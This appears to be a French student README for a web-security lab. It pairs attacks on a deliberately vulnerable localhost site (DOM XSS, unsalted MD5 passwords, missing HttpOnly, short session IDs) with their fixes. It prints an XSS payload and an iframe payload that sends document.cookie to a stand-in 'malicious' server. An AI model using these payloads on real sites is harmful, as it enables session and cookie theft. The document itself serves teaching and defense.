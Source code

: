 # was-grp11
Groupe 11 (Youssra IBRAHIMI, Io ALFANO, Assia HAFID)
  
## DOM Based XSS  
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
On peut créer un bouton de la manière suivante http://localhost:port/dom_xss_1/atk_dom_xss_1.html?button=My%20custom%20button <br/>
**Attaque :** <br/>
Aller sur la page http://localhost:port/dom_xss_1/atk_dom_xss_1.html?button=<script>alert(document.cookie)</script> <br/>
Cela va générer une alerte avec le cookie. Le serveur va générer un objet DOM sans vérifier si le code contient un script malveillant. <br/>
**Defense :**<br/>
Pour contrer ce type d’attaque il faut utiliser un outil pour nettoyer le code avant de l’ajouter au DOM. Nous avons utilisé DOMPurify. <br/>
Quand du code JavaScript est repéré, il est supprimé avant d'être ajouté dans le DOM.<br/>
<br/>
## Password Salting
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
Initilisaliser la base de données en faisant `<sudo mysql < init_db_password.sql>`.<br/>
La page HTML permet de s’authentifier sur le compte de l’administrateur. Le serveur va récupérer le mot de passe de l’administrateur qui vaut MD5(‘admin123’) et va le comparer au mot de passe à tester sur lequel la fonction MD5 a été appliquée.<br/>
De cette manière un attaquant peut facilement retrouver le mot de passe grâce à des rainbow tables.<br/>
**Attaque :** <br/>
http://localhost:port/atk_password.php?password=admin123<br/>
**Defense :**<br/>
Pour générer un nouveau mot de passe nous avons utilisé le code suivant :<br/>
`$salt = bin2hex(openssl_random_pseudo_bytes(22));`<br/>
`$hash = crypt($_GET['password'], "$2a$12$".$salt);`<br/>
De cette manière un salt est généré aléatoirement pour chaque mot de passe et l’utilisation de rainbow tables devient plus compliqué.<br/>
<br/>
## Session HttpOnly
Il faut lancer un serveur sur le port de votre choix (8080) dans le dossier *was-grp11/* et un autre sur le port 8089 (vous pouvez en choisir un autre mais il faut modifier le fichier vulnérable) dans le dossier *bad_session/*.<br/>
HttpOnly est un attribut des cookies qui permet d’indiquer aux navigateurs de ne pas laisser des scripts avoir accès aux cookies depuis le DOM. Le site vulnérable n’implémente pas HttpOnly.<br/>
**Attaque :**<br/>
L’attaquant a déposé un lien permettant d’envoyer une requête contenant les cookies sur un site malveillant. HttpOnly est désactivé.<br/>
`<iframe src="javascript:document.location='http://localhost:8089/bad_session_httponly.php?cookie='+document.cookie"></iframe>`<br/>
http://localhost:8080/session/vulnerable_session_httponly.php <br/>
**Defense :**<br/>
Pour protéger ce site de ce genre d’attaque, il faut préciser aux navigateurs d’utiliser HttpOnly. De cette manière, un attaquant ne pourra pas récupérer des données contenues dans les cookies.<br/>
![image](https://user-images.githubusercontent.com/54988405/137313105-bded2987-aeda-411d-84d9-6041ad80afa8.png)
<br/>
## Session ID Length
**Attaque :**<br/>
Le site vulnérable créé un cookie en faisant un hachage d'une longueur de 64 bits. Pour exploiter la vulnérabilité il faut utiliser des rainbows tables composé de hachage et trouver le bon mot de passe qui génère le bon hachage.<br/>
**Defense :**<br/>
Pour améliorer la défense du site il faut augmenter la taille du session ID. Elle doit être de 128 bits minimum. Le nouveau site génère les session ID avec des hachages de 128 bits.<br/>

